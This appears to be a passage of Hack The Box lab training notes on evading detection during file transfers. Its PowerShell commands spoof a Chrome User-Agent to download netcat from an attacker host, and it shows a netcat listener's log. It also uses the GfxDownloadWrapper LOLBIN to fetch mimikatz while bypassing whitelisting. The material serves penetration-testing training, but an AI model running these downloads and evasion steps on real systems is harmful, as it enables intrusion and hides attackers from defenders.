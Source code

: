 # Evading Detection
## Changing User-Agent
In case diligent administrators or defenders have blacklisted any of these User Agents, Invoke-WebRequest contains a UserAgent parameter, which allows for changing the default user agent to one emulating Internet Explorer, Firefox, Chrome, Opera, or Safari. For example, if Chrome is used internally, then setting this User Agent may make the request seem legitimate.

````powershell 
PS C:\htb> [Microsoft.PowerShell.Commands.PSUserAgent].GetProperties() | Select-Object Name,@{label="User Agent";Expression={[Microsoft.PowerShell.Commands.PSUserAgent]::$($_.Name)}} | fl

Name       : InternetExplorer
User Agent : Mozilla/5.0 (compatible; MSIE 9.0; Windows NT; Windows NT 10.0; en-US)

Name       : FireFox
User Agent : Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) Gecko/20100401 Firefox/4.0

Name       : Chrome
User Agent : Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) AppleWebKit/534.6 (KHTML, like Gecko) Chrome/7.0.500.0
             Safari/534.6

Name       : Opera
User Agent : Opera/9.70 (Windows NT; Windows NT 10.0; en-US) Presto/2.2.1

Name       : Safari
User Agent : Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) AppleWebKit/533.16 (KHTML, like Gecko) Version/5.0
             Safari/533.16
````

Invoking Invoke-WebRequest to download nc.exe using a Chrome User Agent:

````powershell
PS C:\htb> Invoke-WebRequest http://10.10.10.32/nc.exe -UserAgent [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome -OutFile "C:\Users\Public\nc.exe"
 ````

````bash
Ryohei@htb[/htb]$ nc -lvnp 80

listening on [any] 80 ...
connect to [10.10.10.32] from (UNKNOWN) [10.10.10.132] 51313
GET /nc.exe HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) AppleWebKit/534.6
(KHTML, Like Gecko) Chrome/7.0.500.0 Safari/534.6
Host: 10.10.10.32
Connection: Keep-Alive
````

## LOLBAS / GTFOBins

[LOLBAS](https://lolbas-project.github.io/)

[GTFOBins](https://gtfobins.github.io/)

Application whitelisting may prevent you from using PowerShell or Netcat, and command-line logging may alert defenders to your presence. In this case, an option may be to use a "LOLBIN" (living off the land binary), alternatively also known as "misplaced trust binaries." An example LOLBIN is the Intel Graphics Driver for Windows 10 (GfxDownloadWrapper.exe), installed on some systems, and contains functionality to download configuration files periodically. This download functionality can be invoked as follows:

````powershell  
PS C:\htb> GfxDownloadWrapper.exe "http://10.10.10.132/mimikatz.exe" "C:\Temp\nc.exe"
````
Such a binary might be permitted to run by application whitelisting and be excluded from alerting. Other, more commonly available binaries are also available, and it is worth checking the LOLBAS project to find a suitable "file download" binary that exists in your environment. Linux's equivalent is the GTFOBins project and is definitely also worth checking out. As of the time of writing, the GTFOBins project provides useful information on nearly 40 commonly installed binaries that can be used to perform file transfers.

